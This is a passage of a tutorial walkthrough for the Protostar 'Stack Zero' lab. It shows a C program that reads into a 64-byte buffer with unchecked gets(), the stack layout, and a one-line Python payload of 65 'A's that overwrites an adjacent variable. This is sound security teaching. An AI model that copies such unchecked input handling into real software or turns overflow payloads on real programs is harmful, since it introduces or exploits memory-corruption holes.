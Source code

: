 * * *

###### FIRST EXERCISE "STACK ZERO"

This exercise illustrates how the stack variables are arranged and demonstrates the possibility of modifying outside the allocated memory in order to alter the execution of the program. Take as example the below code for this first exercise:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];

    modified = 0;
    gets(buffer);

    if(modified != 0) {
        printf("you have changed the 'modified' variable\n");
    } else {
        printf("Try again?\n");
    }
}
```

As you can see, we do not interact with the `modified` variable. Therefore the question is how to change this value? First, let's see what the stack contains at this precise moment:

```
[buffer (64 bytes)] [modified (4 bytes)] [saved ebp] [saved eip]
```

Since the `gets()` function does not check the size of our string, we have to ask ourselves where are the characters going if we exceed 64 bytes? The answer is simple, they go into what is next in the stack, so basically, they are added to the `modified` variable. We can, therefore, change this variable and validate the challenge. Our final payload to validate this challenge will therefore be:

```bash
cd /opt/protostar/bin/
python -c "print 'A' * 65" | ./stack0
you have changed the 'modified' variable
```

**Output**

![image-11](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/5afb15034ccc33d4750897090b47a57e-11.png "Image-11")

Perfect! You just made your first exploitation of a **Stack Overflow**! How do you feel?

* * *

###### SECOND EXERCISE "STACK ONE"
